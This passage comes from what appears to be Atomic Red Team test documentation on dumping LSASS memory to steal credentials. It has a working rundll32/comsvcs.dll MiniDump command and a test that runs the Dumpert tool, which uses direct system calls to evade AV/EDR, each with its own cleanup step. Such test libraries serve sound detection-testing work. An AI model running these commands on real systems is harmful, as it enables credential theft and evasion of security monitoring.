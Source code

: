 
```powershell
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass-comsvcs.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Dump LSASS.exe Memory using direct system calls and API unhooking
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved using direct system calls and API unhooking in an effort to avoid detection. 
https://github.com/outflanknl/Dumpert
https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
Upon successful execution, you should see the following file created C:\\windows\\temp\\dumpert.dmp.

If you see a message saying \"The system cannot find the path specified.\", try using the  get-prereq_commands to download the  tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 7ae7102c-a099-45c8-b985-4c7a2d05790d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dumpert_exe | Path of Dumpert executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Outflank-Dumpert.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{dumpert_exe}"
```

#### Cleanup Commands:
```cmd
del C:\windows\temp\dumpert.dmp >nul 2> nul
```

